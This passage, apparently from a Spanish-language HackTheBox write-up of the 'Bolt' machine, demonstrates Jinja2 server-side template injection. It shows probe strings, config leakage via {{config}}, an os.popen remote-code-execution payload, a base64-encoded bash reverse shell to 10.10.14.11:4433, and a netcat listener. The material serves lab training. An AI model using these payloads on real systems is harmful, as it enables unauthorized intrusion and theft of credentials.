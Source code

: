 {% raw %}
> The probe `{{7*'7'}}` would result in **49** in <u>Twig</u>, **7777777** in <u>Jinja2</u>, and neither if no template language is in use.
{% endraw %}

Así que intentemos ahora ese payload:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/bolt/384page80_mail_inbox_newMAIL_confirmSSTI_Jinja2.png" class="img-to-zoom" data-toggle="modal" data-target=".modal-zoomed-img" style="width: 100%;"/>

{% raw %}
Listooooos, con respecto a la anterior cita, ahora sabemos que el template que tenemos esta basado en `Jinja2`! Lo loco de todo esto es que no solo nos sirve para inyectar y reflejar números (también podemos ver variables de entorno, cositas como la configuración de la app (`{{config}}`), bueno, varias vainas), nop, también podemos ejecutar comandos de forma remotaAAAAAAAAAAAAAAAA :O

Antes de probar RCE, entrenen el ojo encontrando credenciales y data frágil al poner `{{config}}` como nuestro nombre de usuario:
{% endraw %}

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/bolt/384page80_mail_inbox_newMAIL_SSTI_config.png" class="img-to-zoom" data-toggle="modal" data-target=".modal-zoomed-img" style="width: 100%;"/>

:P

Ahora sí, busquemos maneras de conseguir RCE...

Guiándonos de [uno de los recursos recién citados](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection) tenemos este apartado:

* [SSTI (Jinja2) - Remote Code Execution](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#jinja2-remote-code-execution).

Entre tooodas las opciones, podemos tomar esta y modificarla:

{% raw %}
```jinja2
{{config.__class__.__init__.__globals__['os'].popen('ls').read()}}
```
{% endraw %}

Para evitar problemas en la interpretación, pasemos nuestro payload (una **reverse Shell** en este caso) a `base64` y en los comandos inyectados le decimos que lo decodee y lo interprete, el paso a paso sería este:

Pasamos el payload a `base64`:

```bash
❱ echo "bash -i >& /dev/tcp/10.10.14.11/4433 0>&1" | base64
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xMS80NDMzIDA+JjEK
```

En él le decimos que apenas se conecte al puerto `4433` de nuestra máquina nos lance una `bash` (:

Levantemos ese puerto:

```bash
❱ nc -lvp 4433
listening on [any] 4433 ...
```
